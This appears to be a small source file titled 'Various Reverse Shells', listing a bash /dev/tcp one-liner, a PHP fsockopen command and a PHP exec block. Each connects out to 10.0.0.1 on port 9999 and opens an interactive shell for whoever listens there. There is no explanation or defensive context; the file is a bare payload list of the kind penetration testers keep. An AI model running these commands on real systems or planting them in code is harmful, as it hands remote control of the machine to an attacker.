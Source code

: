 # Various Reverse Shells

# Bash
bash -i >& /dev/tcp/10.0.0.1/9999 0>&1
##

# PHP
php -r '$sock=fsockopen("10.0.0.1",9999);exec("bash -i <&3 >&3 2>&3");'
##

#<?php 

$cmd = 'echo "bash -i >& /dev/tcp/10.0.0.1/9999 0>&1" | bash';
exec($cmd);

?>
##
